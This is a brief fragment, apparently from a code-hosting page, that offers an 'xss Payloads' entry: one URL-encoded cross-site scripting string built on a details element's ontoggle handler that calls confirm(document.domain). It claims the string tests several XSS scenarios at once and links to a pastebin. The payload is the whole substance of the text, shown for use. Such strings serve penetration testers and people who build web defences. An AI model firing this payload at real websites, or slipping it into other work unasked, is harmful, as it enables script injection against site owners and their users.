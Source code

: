 
xss Payloads:
<details++on+/ontoggle%3d1%5econfirm(document.domain)+open//

Test multiple XSS scenarios with ONE payload.  

https://pastebin.com/4zADMK1u
